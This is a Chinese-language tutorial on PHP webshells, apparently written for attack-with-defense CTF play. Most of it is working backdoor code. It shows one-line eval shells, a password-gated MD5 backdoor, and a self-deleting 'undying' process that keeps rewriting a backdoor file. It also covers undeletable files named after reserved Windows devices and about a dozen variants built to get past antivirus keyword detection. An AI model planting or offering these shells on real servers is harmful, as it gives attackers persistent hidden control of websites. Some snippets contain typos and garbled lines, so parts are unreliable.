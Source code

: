 ﻿## 一句话木马
一句话木马，往目标网站中上传一句话木马，然后你就可以在本地通过蚁剑即可获取和控制整个网站目录，
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201102190700570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70#pic_center)
然后可以再上传大马（小马传大马）
# md5马
 在awd中，假设你上传的木马被别的队发现，由于一句话木马的密码是明文在php代码中
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201102191137785.png#pic_center)
 容易被别的队利用，所以我们要对后门加密，由于MD5加密一般不可逆，所以我们用MD5加密

```php
 <?php if(md5($_GET["pass"])=="9f0863dd5f0256b0f586a7b523f8cfe8"){@eval($_POST[shell]);}
```
只有get上去的pass=加密的pass，才能连接这个后门，防止被别人利用
# 不死马
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201102191921290.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70#pic_center)
不死马分为两种系统预留名不死马和php进程马
## 系统预留名不死马
aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9
以这些做文件名不可以用常规化删除，只能用指令来改名或删除
### 创造
```powershell
copy 原文件 \\.\<文件绝对路径>
```
### 删除

```powershell
del \\.\<文件绝对路径>
```
# php进程马
原理是创建一个代码用来定时向目标写入后门，并且利用php删除文件后，进程还在，这个进程将不断向服务器写入后门，并且删除自己来隐藏

```php
<?php 
ignore_user_abort(true);     //与用户断开连接后进程不停止
set_time_limit(0);          //设置最大执行时间，0为无限制
unlink(__FILE__);          //删除自己来隐藏
$file = 'ma.php';
$code = '<?php if(md5($_GET["pass"])=="9f0863dd5f0256b0f586a7b523f8cfe8"){@eval($_POST[a]);} ?>';
while (1){                //死循环
    file_put_contents($file,$code);
    usleep(666);
}
?>
```
然后访问不死马文件，使进程开始工作，过一会将无法访问该文件（404）
这时不死马开始工作
## 杀马
1.重启apache服务（最保险）
2.`kill -9 -1` 这条命令可以杀掉当前用户下面的所有进程

# 免杀
D盾会对，eavl，assert关键字进行捕捉我们要将他们打乱
## base64_decode（）
base64_decode（）函数它会把自己不认识的字符自动过滤掉，来重新组合进行解码
`base64_decode（"ZX说Z何hb不A=="）`=eval实现绕过
 ## php变量

```php
<?php 
$a = "assert";
$a(@$_POST['shell']); 
?>
```

第三行使用了变量函数$a，变量储存了函数名asse，便可以直接用变量替代函数名。
## php变量简单变形1

```php
<?php  
$a="TR"."Es"."sA";  
$b=strtolower($a);  
$c=strrev($b);  
@$c($_POST['shell']);  
?>
```

使用字符串拼接、大小写混淆、字符串逆序组合而成

## php变量简单变形2

```php
<?php  
$a="AssERT";  
$b=strtolower($a);  
@$b($_POST['shell']);  
?>
```

使用大小写混淆配合字符串转小写函数strtolower组合而成

## PHP可变变量

```php
<?php
$bb="assert";
$a='bb';
$$aa($_POST['shell']);
?>
```

以上代码可表示为$$aa = $($aa) = $ (‘bb’) = $bb = "assert"

## 自定义函数

```php
<?php  
function fun($a){  
    @eval($a);  
}  
@fun($_POST['shell']);  
?>
```

使用function自定义函数，然后函数来调用eval函数

## create_function函数

```php
<?php 
$fun = create_function('',$_POST['shell']);
$fun();
?>
```

创建了一个匿名函数，并返回了一个独一无二的函数名，然后再调用此函数

## call_user_func()函数

```php
<?php
@call_user_func(assert,$_POST['shell']);
?>
```

call_user_func()函数的第一个参数是被调动的函数，剩下的参数（可有多个参数）是被调用函数的参数


## preg_replace函数

```php
<?php   
    function fun(){  
        return $_POST['shell'];  
    }  
    @preg_replace("/test/e", fun(), "test123");  
?>
```

preg_replace 函数一个参数是一个正则表达式，按照 php的格式，表达式在两个/之间，如果在表达式末尾加上一个 e，则第二个参数就会被当做 php代码执行。

## pares_str函数

```php
<?php
$str="a=eval";
parse_str($str);
$a($_POST['shell']);
?>
```

执行pares_str函数后可以生成一个名为$a，值为"eval"的变量。

## str_replace函数

```php
<?php 
$a = str_replace("test", "", "astestsert");
$a($_POST['shell']);
?>
```
## 通过PHP的动态函数方法执行一句话。

```php
<?php
$a = 'assert';
$b = '_GET';
$a($$b['mu']); //assert($_GET['mu'])
```
## 利用php异或^构造字符串 
 PHP有一特性当两个字符串执行异或，会得到一个字符串，如果某位不同则该位为1, 否则该位为0。可以通过两个非字母字符串构造a-z任意字母

```php
 <?php
$_=(''^'`').(''^'`').(''^'`');//ass
$__=(''^'`').(''^'`').(''^'`'); //ert
$_ = $_.$__;//assert
$__='_'.('\''^'`').('%'^'`').('4'^'`'); //_GET
$___=$$__;
@$_($___[_]); //@assert($_GET[_])
?>
```
## 数字运算构造木马

通过运算，得到相应的acsii，然后转为相应的字符，构造一句话。

<?php
$_=chr(floor(pow(pi(),4))).chr(115).chr(115).chr(101).chr(114).chr(116);
$__='_'.chr(71).chr(69).chr(84);
$___=$$__;
$_($___[_]);
?>
